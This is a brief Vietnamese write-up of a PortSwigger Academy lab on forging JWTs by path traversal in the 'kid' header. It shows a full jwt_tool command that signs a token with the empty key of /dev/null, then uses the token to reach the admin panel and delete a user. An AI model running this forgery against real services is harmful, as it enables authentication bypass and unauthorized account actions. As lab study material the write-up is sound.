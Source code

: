 ```yaml
---
title: JWT authentication bypass via kid header path traversal
date: 2023-04-18 12:15:12 +0700
categories: [PortSwigger, JSON Web Token]
tags: [serverside, jwt]    # TAG names should always be lowercase
---
```


1. Dùng path traversal cho `kid` param trỏ đến file `/dev/null` là một file rỗng trên filesystem linux.
2. Dùng `jwt_tool` để craft token mới 
- Payload: ``python3 jwt_tool.py <JWT> -I -hc kid -hv "../../dev/null" -S hs256 -p ""``
![image](https://user-images.githubusercontent.com/80744099/226424504-d48fc0af-1d76-4709-bf63-5e4815447d65.png)
![image](https://user-images.githubusercontent.com/80744099/226424736-2f112e71-ba23-44e7-8c03-2fa06797d833.png)
![image](https://user-images.githubusercontent.com/80744099/226423380-c7b4d8bd-73e7-48c3-9f56-cb1407689c14.png)
3. Gán token vào session cookie vào trang admin rồi xóa user carlos
![image](https://user-images.githubusercontent.com/80744099/226423593-6a7ac2fb-d06e-4fc5-9af8-7afedc920bb4.png)